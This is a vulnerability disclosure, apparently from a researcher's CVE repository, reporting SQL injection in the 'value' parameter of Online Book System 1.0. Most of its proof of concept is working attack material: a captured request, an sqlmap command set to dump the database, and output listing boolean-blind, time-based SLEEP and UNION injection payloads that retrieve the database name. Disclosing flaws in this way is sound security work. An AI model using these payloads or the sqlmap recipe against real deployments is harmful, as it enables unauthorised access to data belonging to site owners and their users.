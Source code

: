 # Online Book System- SQL Injection - 3
+ **Exploit Title:** Online Book System- SQL Injection
+ **Date:** 2024-26-03
+ **Exploit Author:** Burak Sevben
+ **Vendor Homepage:** https://code-projects.org/online-book-system-in-php-css-js-and-mysql-free-download/
+ **Software Link:** https://download.code-projects.org/details/74c24d93-431e-4e31-acc1-802f14caef5c
+ **Version:** 1.0
+ **Tested on:** Kali Linux + PHP 8.2.12, Apache 2.4.58
+ **CVE:** Reported, waiting for CVE number.

## Description:
Online Book System 1.0 allows SQL Injection via the 'value' parameter at "localhost/BookStore-master 1/Product.php". 
Exploiting this issue could allow an attacker to compromise the application, access or modify data, or exploit the latest vulnerabilities in the underlying database.

## Proof of Concept:
+ Go to this address: "localhost/BookStore-master 1/Product.php"
+ Capture the request via Burp Suite and send it to the Repeater.
+ Copy the request and paste it into an "r.txt" file.
+ Captured Burp request:

```
GET /BookStore-master%201/Product.php?value=entrance%20exam HTTP/1.1
Host: localhost
sec-ch-ua: "Not A(Brand";v="24", "Chromium";v="110"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "Linux"
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/110.0.5481.78 Safari/537.36

```

+ Use sqlmap to exploit. In sqlmap, use 'value' parameter to dump the database.
```
sqlmap -r r.txt -p value --risk 3 --level 5 --dbms mysql --proxy="http://127.0.0.1:8080" --batch --current-db
```
```
---
Parameter: value (GET)
    Type: boolean-based blind
    Title: AND boolean-based blind - WHERE or HAVING clause
    Payload: value=entrance exam' AND 6302=6302-- UDjO

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: value=entrance exam' AND (SELECT 1704 FROM (SELECT(SLEEP(5)))wPKG)-- KJpp

    Type: UNION query
    Title: Generic UNION query (NULL) - 14 columns
    Payload: value=entrance exam' UNION ALL SELECT CONCAT(0x716b786a71,0x574b6549785a614e7a58724d414b51614e706c536b53415363697854594d4c7a59726258586e5942,0x716a6b6271),NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL-- -
---
[11:07:38] [INFO] the back-end DBMS is MySQL
web application technology: Apache 2.4.58, PHP 8.2.12
back-end DBMS: MySQL >= 5.0.12 (MariaDB fork)
[11:07:39] [INFO] fetching current database
current database: 'u385439067_store'

```
+ current database: `u385439067_store`

![Ekran görüntüsü 2024-03-26 181104](https://github.com/BurakSevben/CVEs/assets/117217689/e1084e89-8710-4374-b9b0-06fe7d3c3901)

